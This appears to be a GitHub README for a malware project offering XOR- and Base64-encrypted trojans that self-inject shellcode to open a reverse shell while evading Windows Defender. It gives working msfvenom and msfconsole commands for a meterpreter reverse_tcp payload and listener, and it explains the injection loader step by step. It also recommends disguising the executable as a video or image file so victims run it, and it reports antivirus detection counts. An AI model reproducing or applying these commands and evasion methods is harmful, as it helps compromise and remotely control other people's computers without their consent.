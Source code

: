 # Encrypted Trojans (Undetected)
Encrypted self-injection malware that creates a shell on a victim's pc, using Xor and Base64 encryption, UNDETECTED by Windows defender.

# 💻 Code (Encryption)

The first code is a very basic xor encryption using python, the second one is c++ based, the third one a base64 encoding based encryption, and the last one is a combination of the previous ones. The shellcodes are released with a very simple self injection process i showed in a previous repo, [Self-Injection-Reverse-Shell-Undetected](https://github.com/Hue-Jhan/Self-Injection-Reverse-Shell-Undetected), therefore i will not explain everything in details.

### 1) Python simple xor encryption

In this code the encryption function takes two inputs: a byte sequence (the shellcode), and a key (single-byte key to XOR against the data). It returns a new byte sequence where each byte from the data is XOR'd with the key. 

### 2) Xor encryption

Does the same thing but in c++, unlike the python code, it modifies the shellcode in place. The shellcode array passed to the function is directly changed through the XOR operation, so there is no return value, as the changes are applied directly to the memory location of the shellcode.

### 3) Base64 simple encryption

In this case i used a simple base64 encryption, it works by grouping the binary data into 24-bit blocks (3 bytes), then dividing them into four 6-bit chunks. Each 6-bit chunk is mapped to one of 64 possible characters (A-Z, a-z, 0-9, +, /).

### 4) Xor and Base64 encryption

Here the shellcode is encrypted using a simple XOR operation, and then it's encoded in Base64.

### 5) Multiple Xor and Base64 encryptions

The final encryption consists in multiple rounds of the Xor/B64 encryption, its the most complex i made so far. The only problem is decoding and injecting it, i've been having some issues decoding it as the cmd crashes : (
It's probably related to a buffer overflow due to the size of the encrypted shellcode.

---

# 💻 Code (Self Injection)

**Code explained**:
- First we define the base64 shellcode (make sure architecture is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

**Listener**:

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```


**Payload**:

The payload is, as i said before, a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

**Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with:

``` sessions ``` or ``` shell ```

---

# 🛡 AV Detection

<img align="right" src="media/trojan-shigata.png" width="200" />

Currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

- Simple python xor: 23 av detections
- Xor: 19 av detections
- Base64: idk
- Xor base 64: 11 av detections
- Multiple round encryptions: idk but definitely less than 10

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.

<img align="left" src="media/trojan-shigata-simple-xor.png" width="310" />

<img align="left" src="media/trojan-shigata-xor-base64.png" width="380" />
